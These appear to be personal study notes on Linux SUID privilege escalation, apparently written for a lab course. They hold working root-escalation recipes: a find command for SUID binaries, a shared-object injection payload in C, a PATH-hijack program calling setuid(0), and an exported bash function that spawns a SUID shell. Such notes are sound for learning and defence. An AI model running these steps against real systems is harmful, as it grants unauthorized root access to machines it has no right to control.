 SUID

* Set user id
	* has to do with setting user permissions 
	 ![de51d49c5d1471552f61c0af78537251.png](../_resources/fbf36d76de8441ca9689d78396caaa62.png)
* chmod 777 
	* r + w + x = 7 bits 
	* so chmod 777 gives full read write access to a file 
* sticky bit 
	* a s in the rw's' posistion
	* not everything with a s is vuln 
	* find them: find / -perm -u=s -type f 2>/dev/null
	* check gtfobins to see how to use the suid vuln based on what you find 
## Other SUID exploitations 
* Escliation via shared object injection
	* strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
	* strace will output a lot of binary information, like easy reverse engineering 
	* the grep finds places that the binary tries to call a file but it does not exist 
	* if you can create/edit that file then you have code exe
	* Malicious C code that backs up /bin/bash and then executes it 
		```
		#include <stdio.h>
		#include <stdlib.h>

		static void inject() __attribute__((constructor));

		void inject() {
			system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
		}
		```
* Esclication via binary symlinks
	* https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html
	* if given read write access you can replcae a file with a malicious one 
	* stands for a symbolic link
	* like coding references 
	* do need a startup or restart of the nginx in this case
		* later will be chron jobs
* Esclication via enviromental variables 
	* env var - available system wide and inherted by all stuff
	* env will show env variables 
	* echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
	* gcc /tmp/service.c -o /tmp/service
	* export PATH=/tmp:$PATH
	* print $PATH
		Warning: unknown mime-type for "/tmp:/tmo:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/sbin:/usr/sbin:/usr/local/sbin" -- using "application/octet-stream"
		Error: no such file "/tmp:/tmo:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/sbin:/usr/sbin:/usr/local/sbin"
		
	* will not check the /tmp first before the rest of the system
	* /usr/local/bin/suid-env
	* now root
	## 2
	* function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
	* export -f /usr/sbin/service
	* /usr/local/bin/suid-env2
	* now root
	* 